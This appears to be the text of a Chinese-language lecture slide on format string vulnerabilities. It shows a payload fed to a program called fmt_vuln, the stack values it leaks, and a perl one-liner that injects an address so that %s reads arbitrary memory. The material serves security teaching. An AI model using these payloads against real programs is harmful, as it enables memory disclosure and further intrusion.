

58
# 读取任意存贮地址的内容
./fmt_vuln AAAA%08x.%08x.%08x.%08x
The right way:
AAAA%08x.%08x.%08x.%08x
The wrong way:
AAAAbffff590.000003e8.000003e8.41414141
如果把最后一个%x改为%s呢
./fmt_vuln `perl  -e ‘print”\x14\xfd\xff\xbf ”’`%08x.%08x.%08x.%08x